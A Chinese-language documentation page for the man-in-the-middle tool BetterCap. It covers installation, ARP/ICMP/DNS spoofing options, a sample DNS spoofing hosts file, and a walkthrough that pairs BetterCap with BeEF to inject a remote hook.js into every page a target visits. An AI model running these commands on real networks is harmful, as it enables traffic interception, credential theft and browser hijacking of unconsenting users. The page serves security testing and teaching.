 .. _bettercap:

==========
BetterCap
==========

BetterCap 是中间人攻击中的一种工具，用于替代知名但老旧的 :ref:`Ettercap <ettercap>`。

* 网站：https://www.bettercap.org/
* GitHub：https://github.com/evilsocket/bettercap

**一些主要功能包括：**

* 全双工和半双工 ARP 欺诈
* 真正的 **ICMP DoubleDirect** 欺诈实现
* 配置 DNS 欺诈
* 实时和完全的 automatized 主机发现
* 实时的认证证书协议的捕获，如 HTTP(S) 发布的数据，基本和数字认证 FTP, IRC, POP, IMAP, SMTP, NTLM ( HTTP, SMB, LDAP, etc ) 等等
* 完全自定义的网络嗅探器
* 模块化的 HTTP 和用户插件 + 内置插件注入自定义的 HTML 代码，JS 或 CSS 文件和 URL 支持的 HTTPS 透明代理
* SSLStripping
* 内置 HTTP 服务器

安装
==========

BetterCap 是 Ruby编写的，这意味着你将需要一个Ruby解释器 (> = 1.9)，并安装了 RubyGems 的环境

稳定版本 (GEM)
---------------

使用 ``gem install`` 轻松安装：
::

    gem install bettercap

更新到新版本：
::

    gem update bettercap

依赖
----------

所有的依赖性将通过 ``GEM`` 系统自动安装，在某些情况下，你可能需要自己安装这些本地的依赖性：
::

    apt-get install build-essential ruby-dev libpcap-dev

开发版本
----------

开发版本是最新的版本，你也可以从克隆GitHub的库的源代码，
这会给你所有最新和实验功能，但请记住，您使用的是潜在的不稳定版本：
::

    git clone https://github.com/evilsocket/bettercap.git
    cd bettercap
    bundle install
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

网络欺骗
==========

你可以针对整个局域网或单个目标

选项
----------

::

    -S, --spoofer NAME

欺骗者模块来使用，可得：ARP，ICMP，NONE，如果没有欺骗程序指定的默认​​（ARP）将被选择
::

    -T, --target ADDRESS1,ADDRESS2,...

针对指定的目标 IP 或 MAC 地址，在没有指定完整的子网情况下
::

    --ignore ADDRESS1,ADDRESS2

忽略指定的某些地址
::

    --dns FILE

启用 DNS 欺骗服务器，并指定一个文件作为一个主机解析表
::

    --dns-port PORT

设置 DNS 服务器的端口，默认为 ``5300`` 
::

    --kill

相反，转发数据包，这种交换机会将目标的连接被杀害。
::

    --no-spoofing

禁止欺骗，别名 ``--spoofer NONE``
::

    --half-duplex

启用半双工中间人，这将使 bettercap 工作在这种情况下，当路由器不容易（见下文）

DNS 欺骗
----------

如果要执行DNS欺骗，你必须指定 ``--dns FILE`` 命令行参数，这里的 **FILE** 值

是由类似下面的条目组成文件的名称：
::

    # Empty lines or lines starting with # will be ignored.
    
    # redirect *.google.com to the attacker ip address
    
    local .*google\.com
    
    # redirect *.microsoft.com to 10.10.10.10
    
    10.10.10.10 .*microsoft\.com

例子
----------

在一个局域网中启动时默认使用 ARP 欺诈方式：
::

    bettercap

::

    bettercap -S ICMP

::

    bettercap --dns ./hosts --httpd-port 80


组合 BeEF 框架使用
===================

在中间人攻击中对目标主机访问的每个网页中注入 :ref:`BeEF <beef>` 的 ``hook.js`` 使之可被 :ref:`BeEF <beef>` 控制。

启动 :ref:`BeEF <beef>` 框架
::

    cd /opt/beef-xss
    ./beef

记下你的 Hook URL (http://192.168.1.101:3000/hook.js)

打开另一个终端，启动 BetterCap (注意：替换成你的URL)
::

    bettercap --proxy-module injectjs --js-url "http://192.168.1.101:3000/hook.js"

如果你需要指定一个特定的目标，使用 ``-T`` 参数
::

    bettercap -T 192.168.1.102 --proxy-module injectjs --js-url "http://192.168.1.101:3000/hook.js"

BetterCap 将开始欺骗目标，将 JavaScript 注入到目标主机访问的每一个网页上

现在打开你的浏览器，登录到 BeEF 的控制台 (http://192.168.1.101:3000/ui/panel) ，如果一切正常，你应该能看到被控制的目标浏览器。
